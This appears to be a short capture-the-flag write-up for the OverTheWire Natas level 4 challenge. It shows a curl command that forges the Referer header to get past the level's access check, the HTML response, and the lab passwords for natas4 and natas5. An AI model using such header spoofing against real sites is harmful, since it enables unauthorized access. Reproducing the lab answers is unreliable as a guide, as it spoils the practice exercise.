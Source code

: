 # Natas Level 3 → Level 4

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas4`  
- **Host:** `http://natas4.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ` 

---

## 🖥️ Commands Used

```bash
# curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org
┌──(amro㉿amro)-[~]
└─$ curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org \
> -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
![level_04](./images/level_04.png)
___

## 💡 Tips
```bash

```
___

## 📤 Output
```bash
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

